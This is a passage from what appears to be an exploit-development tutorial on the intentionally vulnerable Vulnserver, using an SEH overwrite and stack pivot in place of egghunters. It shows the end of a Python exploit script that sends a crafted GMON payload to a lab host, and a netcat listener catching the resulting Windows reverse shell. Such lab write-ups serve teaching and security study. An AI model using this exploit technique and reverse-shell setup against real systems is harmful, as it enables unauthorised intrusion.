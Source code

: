 ```c
# to overwrite SEH
payload+=seh
# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 exploit-1.py
```

By running this exploit crafted with stack pivoting, our reverse shell gets popped

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876
listening on [any] 9876 ...
connect to [192.168.116.128] from (UNKNOWN) [192.168.116.140] 54360
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\vulnserver-master\vulnserver-master>whoami
whoami
vulnserver\winexp

C:\vulnserver-master\vulnserver-master>
```

This is how, we can replace usage of egghunters with stack pivots
